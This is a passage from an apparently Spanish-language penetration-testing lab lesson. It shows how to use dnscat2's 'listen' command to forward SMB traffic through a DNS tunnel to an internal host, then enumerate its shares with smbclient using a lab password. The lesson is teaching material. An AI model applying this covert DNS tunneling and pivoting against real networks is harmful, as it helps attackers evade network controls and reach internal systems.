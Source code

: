 Esto devuelve un aviso con un prefijo de "command". Podemos obtener más información sobre cada comando ejecutándolo con el indicador **--help** .

Ya que estamos tratando de hacer un túnel, investiguemos las opciones de reenvío de puertos. Podemos usar **listen** para configurar un puerto de escucha en nuestro servidor dnscat2 e impulsar el tráfico TCP a través de nuestro túnel DNS, donde será desencapsulado y enviado a un socket que especifiquemos. Pongamos en segundo plano nuestro console session presionando Ctrl + Z . Volviendo a la command session, ejecutemos **listen --help** .

```
command (pgdatabase01) 1> listen --help
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
	-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
  --help, -h:   Show this message
```

De acuerdo con la salida del mensaje de ayuda, **listen** funciona de manera muy similar **a ssh -L** . Y ya deberíamos estar muy familiarizados con eso.

Intentemos conectarnos al puerto SMB en HRSHARES, esta vez a través de nuestro túnel DNS. Configuraremos un reenvío de puerto local, escuchando en 4455 en la interfaz de bucle invertido de FELINEAUTHORITY y reenviando a 445 en HRSHARES.:

```
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445
command (pgdatabase01) 1> 
```

Desde otro shell en FELINEAUTHORITY podemos enumerar los recursos compartidos de SMB a través de este puerto hacia adelante.

```
kali@felineauthority:~$ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
Password for [WORKGROUP\hr_admin]:

        Sharename       Type      Commen
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
    	scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```

La conexión es más lenta que una conexión directa, pero esto es de esperar dado que nuestros paquetes SMB se transportan a través del túnel DNS dnscat2. Los paquetes SMB basados ​​en TCP, encapsulados en solicitudes DNS y respuestas transportadas a través de UDP, hacen ping de ida y vuelta al servidor SMB en HRSHARES, en lo profundo de la red interna..

En esta unidad de aprendizaje, usamos dnscat2 para canalizar el tráfico de SMB a través de solicitudes y respuestas de DNS. Lo usamos para enumerar los recursos compartidos disponibles en un host muy dentro de la red interna, a pesar de que ni HRSHARES ni PGDATABASE01 tenían conectividad directa con nuestro servidor FELINEAUTHORITY.
